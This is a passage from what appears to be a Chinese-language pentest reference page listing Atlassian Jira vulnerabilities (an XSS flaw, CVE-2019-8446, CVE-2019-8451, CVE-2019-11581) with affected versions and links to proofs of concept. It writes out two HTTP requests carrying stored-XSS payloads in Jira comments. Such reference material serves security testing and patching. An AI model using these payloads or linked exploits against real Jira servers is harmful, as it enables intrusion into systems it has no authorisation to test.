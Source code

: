 - 影响版本
    - Atlassian Jira 7.7 ~ 7.13.6
    - Atlassian Jira 8.0.0 ~ 8.3.2

- POC | Payload | exp
    ```
    POST /rest/api/2/issue/TEST-7/comment HTTP/1.1
    Content-Type: application/json

    {"body":"!image.png|width=\\\" οnmοuseοver=alert(333);//!"}
    ```
    ```
    POST /rest/api/2/issue/TEST-7/comment HTTP/1.1
    Content-Type: application/json

    {"body":"!image.png|width=http://οnmοuseοver=alert(42&#x29;;//!"}
    ```

**CVE-2019-8446 信息泄露(用户名枚举)**
- 简介

    Atlassian Jira 8.3.2之前版本中的 /rest/issueNav/1/issueTable 资源存在授权问题漏洞。该漏洞源于网络系统或产品中缺少身份验证措施或身份验证强度不足。

- 影响版本
    - Atlassian Jira 7.6 ~ 8.3.2

- POC | Payload | exp
    - https://talosintelligence.com/vulnerability_reports/TALOS-2019-0839

**CVE-2019-8451 Jira 未授权 SSRF 漏洞**
- 简介

    Atlassian Jira 8.4.0 之前版本中的 /plugins/servlet/gadgets/makeRequest 资源存在代码问题漏洞。该漏洞源于网络系统或产品的代码开发过程中存在设计或实现不当的问题。

- 影响版本

    - Atlassian Jira 7.6.0 ~ 8.4.0

- POC | Payload | exp
    - [jas502n/CVE-2019-8451](https://github.com/jas502n/CVE-2019-8451)

**CVE-2019-11581 Atlassian Jira 模板注入漏洞**
- 简介

    Atlassian Jira 多个版本前存在利用模板注入执行任意命令

- 影响版本
    - Atlassian Jira 4.4 ~ 7.6.14
    - Atlassian Jira 7.7.0 ~ 7.13.5
    - Atlassian Jira 8.0.0 ~ 8.0.3
    - Atlassian Jira 8.1.0 ~ 8.1.2
    - Atlassian Jira 8.2.0 ~ 8.2.3

- 文章
    - [Atlassian Jira 模板注入漏洞 (CVE-2019-11581) ](https://vulhub.org/#/environments/jira/CVE-2019-11581/)

---

